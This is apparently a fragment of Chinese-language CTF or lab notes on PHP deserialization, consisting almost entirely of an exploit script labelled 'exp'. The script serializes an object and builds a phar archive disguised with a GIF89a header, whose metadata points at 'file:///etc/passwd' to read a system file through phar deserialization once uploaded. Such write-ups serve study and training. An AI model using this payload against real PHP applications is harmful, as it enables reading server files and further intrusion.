 ![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%206.png)

exp

```php
<?php
class Easytest{
	protected $test = "1";

}

class Main{
	public $url = "file:///etc/passwd";
}

$a = new Easytest();

echo urlencode(serialize($a));

$b = new Main();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub('GIF89a'. '<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($b);
$phar->addFromString('text.txt', 'test');
$phar->stopBuffering();
```

上传位置
